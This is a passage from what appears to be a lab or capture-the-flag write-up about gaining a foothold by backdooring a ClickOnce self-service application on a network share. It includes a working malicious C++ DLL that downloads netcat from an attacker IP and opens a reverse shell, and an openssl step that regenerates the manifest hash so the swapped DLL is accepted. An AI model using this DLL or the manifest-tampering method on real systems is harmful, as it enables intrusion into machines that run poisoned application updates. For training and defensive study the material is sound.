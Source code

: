 Using credentials on MS01, we can enumerate the shares where we'll find `wwwroot` share from the self service application is being hosted

<img src="https://i.imgur.com/LTlozm0.png"/>
<img src="https://i.imgur.com/QMDb2pn.png"/>

Going into `Application Files` there are SelfService files

<img src="https://i.imgur.com/ySn0oYQ.png"/>
# Abusing ClickOnce to gain foothold

This share is named as `ClickOnce application dev share` which is an easy  deployment and execute technique based on user interaction,  we did saw `last-run.txt` which is indicating that this selfservice is being executed after some time by the user

<img src="https://i.imgur.com/cn4I5z8.png"/>
<img src="https://i.imgur.com/ay8M2fR.png"/>

To abuse clickonce following this arcticle https://infosecwriteups.com/backdooring-clickonce-net-for-initial-access-a-practical-example-1eb6863c0579, we  need to replace the dll with our custom dll to gain a reverse shell, so crafting a dll which will download and execute netcat on the victim machine

```c++
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
 
            system("curl 10.8.0.136/nc64.exe -o C:\\Windows\\Temp\\nc64.exe");
            system("C:\\Windows\\Temp\\nc64.exe 10.8.0.136 2222 -e cmd.exe");
 
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}

```

<img src="https://i.imgur.com/N8cfbiz.png"/>

Now calculating validation digest hash and including it in `SelfService.dll.manifest` file also updating the size of the dll file

```bash
openssl dgst -binary -sha256 \                    
    SelfService.dll.deploy | \
openssl enc -base64
```
